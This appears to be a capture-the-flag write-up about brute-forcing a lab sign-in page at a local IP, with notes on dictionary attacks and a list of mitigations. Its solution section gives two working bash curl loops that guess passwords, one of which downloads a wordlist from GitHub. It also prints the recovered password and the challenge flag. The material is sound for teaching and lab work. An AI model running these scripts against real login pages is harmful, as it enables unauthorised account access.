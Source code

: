 # <span style="text-decoration: underline"> Brutforce </span>

##### Tags : `brutforce` , `curl`, `guess`
##### Server ip : `192.168.1.17 `
____

# <span style="text-decoration: underline">problem</span>

Once common way of breaking into website is uisng brutforce. When we go to **signin** page and enter
|username|password|
|--|--|
|AAA|BBB|

and try to signin using those credentials, we are redirected to the folloing `URL` : **`http://192.168.1.17/?page=signin&username=AAA&password=BBB&Login=Login#`**

In the `URL` we can see the following parameters

|key|value|
|--|--|
|page|signin|
|username|AAA|
|password|BBB|
|Login|Login|

We can clearly see in the `URL` what we used as our `username` and `password`. This is clearly an old way of doing things because it expose the user credentials in plain text and on the `URL`



# <span style="text-decoration: underline">Solution</span>

To try a brutforce agains this `URL` all we need to do is change the value of `username` and `password`. It would take an infinit amount of timet ot try all the characters as **username** and **password** so a better way to do this would be using [`dictionary`](https://nordpass.com/blog/what-is-a-dictionary-attack/) based attack.

> A dictionary attack is a systematic method of guessing a password by trying many common words and their simple variations. Attackers use extensive lists of the most commonly used passwords, popular pet names, fictional characters, or literally just words from a dictionary – hence the name of the attack. They also change some letters to numbers or special characters, like “p@ssw0rd”.

It would still take way too long to guess both **username** and **password** so let's narrow down a bit our `username` wordlist. According to [this](https://lifehacker.com/the-top-10-usernames-and-passwords-hackers-try-to-get-i-1762638243) website the followings are the most commong `usernames`.

|username|count|percent|
|--|--|--|
| administrator| 77125 | 4.87%|
| Administrator| 53427| 24.15%|
| user1| 8575 | 3.88%|
| admin| 4935| 2.23%|
| alex| 4051| 1.83%|
| pos| 2321| 1.05%|
| demo| 1920| 0.87%|
| db2admin| 1654| 0.75%|
| Admin| 1378| 0.62%|
| sql| 1354| 0.61%|

We could also narrow down the **password** list like our **username** list (all though in realworld we should probably try a bigger list). Here is a list of website that propose a short list of commonly used password.

- https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords
- https://github.com/DavidWittman/wpxmlrpcbrute/blob/master/wordlists/1000-most-common-passwords.txt
- https://cybernews.com/best-password-managers/most-common-passwords/
- https://nordpass.com/most-common-passwords-list/
- https://github.com/iryndin/10K-Most-Popular-Passwords/blob/master/passwords.txt
- https://techcult.com/most-common-passwords/

I have noticed that [this](git) repository contains a short list (1k) passwords that we can find in the [wikipedia](https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords) page and this could be a good start.

All we have to do now is 

- Download the list of password
- Write some code to do the query using all the passwords
- And wait for the program to find the password

Here is a simple `shell` script to do the brutforce

?> We will use `admin` as username first because it is one of the most used username for admin account.


```bash
#!/bin/bash

username="admin" # The username we
host="192.168.1.17" # The ip address of the machine
dictionary="passwords.txt" # Path to the dictionary (password list)
i=1 # A simple iterator to know howmany password have we tried

while IFS= read -r password;
do
	echo -n "trying [$i]: $password"
	curl -s "http://$host/?page=signin&username=$username&password=$password&Login=Login#" | grep flag > /dev/null # You can also get the password directly in the terminal by removing the "> /dev/null"
	if [ $? -eq 0 ]
	then
		printf "\n\n"
		echo "Found the password : $password"
		exit
	fi
	((i=i+1))
	printf "\33[2K\r"
done < $dictionary
```

If you do not desire to download anything then you can use the following script

```bash
HOST='192.168.1.17'
USERNAME='admin'
DICTIONARY=($(curl -s "https://raw.githubusercontent.com/DavidWittman/wpxmlrpcbrute/master/wordlists/1000-most-common-passwords.txt"))

for i in ${!DICTIONARY[@]};
do
	echo -n  "trying [$i]: ${DICTIONARY[$i]}"
	curl -s "http://$HOST/?page=signin&username=$USERNAME&password=${DICTIONARY[$i]}&Login=Login#" | grep flag > /dev/null # You can also get the password directly in the terminal by removing the "> /dev/null"
	if [ $? -eq 0 ]
	then
		printf "\n\n"
		echo "Found the password : ${DICTIONARY[$i]}"
		exit
	fi
	printf "\33[2K\r"
done
```

!> If you try the script, do not forget to put the **right** `host` / `ip` address for `you`!

After executing our script, the script tells us that the password is `shadow`. so :

|username|password|
|--|--|
|admin|shadow|

# How to avoid the problem
This was once a common problem before where website exposed the user credentials directoly on the `URL` which itself is not encrypted. In moderndays we start

- Not sending credentials or importent information over [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) method and start using [`POST`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST).
- We use [`ssl`](https://developer.mozilla.org/en-US/docs/Glossary/SSL) encryption and [`https`](https://developer.mozilla.org/en-US/docs/Glossary/https) to send our data over internet so even if someone get hold of our data they will have hard time decrypting it.
- Set up a maximum request length so that if a someone tries to send to many requests, they get blocked.
- 2 factor authentication so that even if you have the correct credential you will still need a mobile device or a third element to log in.
- A server could also guess if the user begind the screen is the right user depending on the user IP, location, behaviour and many other things to protect better the user account.


# Flag

```text
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```